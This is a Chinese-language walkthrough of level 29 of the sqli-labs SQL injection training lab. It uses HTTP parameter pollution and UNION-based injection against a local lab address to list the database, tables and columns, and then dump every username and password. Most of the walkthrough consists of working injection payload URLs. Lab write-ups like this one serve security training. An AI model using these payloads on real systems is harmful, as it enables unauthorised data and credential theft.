







# Less - 29

---

# 通关教程

---

## 1、判断闭合

---

​​

感觉跟Less-1一样，打开源码文件夹发现存在其他文件，浏览器尝试如下内容

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1
```

​​

ID后面输入id=1&id=2，我们使用的web容器为apache，则会执行id=2，如果为tomcat，则会执行id=1，这里我的web容器为apache，所以会执行id=2

​​

---

## 2、查看当前库

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,database()--+
```

​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​​

---

## 5、查看username,password字段的所有值

---

```http
http://192.168.225.132/sqli-labs/Less-29/login.php?id=1&id=-2' union select 1,2,(select group_concat(concat_ws('~',username,password)) from security.users)--+
```

​​
